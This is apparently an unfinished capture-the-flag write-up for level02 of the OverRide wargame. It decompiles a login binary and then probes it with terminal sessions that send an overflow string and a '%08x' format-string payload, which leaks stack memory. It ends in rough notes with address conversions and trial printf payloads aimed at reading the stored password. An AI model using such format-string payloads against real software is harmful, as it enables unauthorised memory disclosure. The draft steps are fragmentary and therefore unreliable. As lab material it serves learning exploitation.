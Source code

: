 ### step 1: Decompile with Ghidra

C code is available in the `source` file  

### step 2: Code analysis

- Two buffers are filled with `stdin`
  - `buffer1[12]`
  - `buffer2[14]`

- A Username is asked a fill `buffer1`
- If we try to overflow `buffer1` with more than 12 chars, `buffer2` gets filled. Here is an example with only one long input :  

```
level02@OverRide:~$ ./level02 
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
--[ Password: *****************************************
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA does not have access!
```

**But we don't get a segfault this way**  

```
level02@OverRide:~$ ./level02 
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: AAAA%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x
--[ Password: *****************************************
AAAAffffe4f0.00000000.00000025.2a2a2a2a.2a2a2a2a.ffffe6e8.f7ff9a08.78383025.30252e78.2e783830.3830252e.252e7838.78383025.30252e78.2e783830.3830252e.252e7838.78383025.00000000. does not have access!
```
7838302530252e782e7838303830252e252e7838

0x400d22 = \x22\x0d\x40\x00
f7ff9a08 = \x08\x9a\xff\xf7
ffffe4f0 = \xf0\xe4\xff\xff
printf ("\x22\x0d\x40\x00_%08x.%08x.%08x.%08x.%08x|%s|")

Main variables stack starting Address : 0x7fffffffe5a0

Try `printf ("\x88\xe6\xff\xff_%08x.%08x.%08x.%08x.%08x|%s|")` with these stack addresses to print the content of `read_buffer` ?

